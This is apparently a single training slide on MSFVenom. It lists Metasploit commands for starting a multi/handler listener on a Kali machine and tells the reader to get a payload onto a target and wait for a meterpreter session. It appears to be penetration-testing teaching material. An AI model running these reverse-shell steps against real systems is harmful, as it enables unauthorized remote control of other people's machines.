

# MSFVenom
Open msfconsole and start the handler
use exploit/multi/handler
set LHOST <your kali machine IP address>
set LPORT <the port you set on the payload. (5000)>
run

Get your payload to the target machine and execute it
go back to your Kali and wait for the meterpreter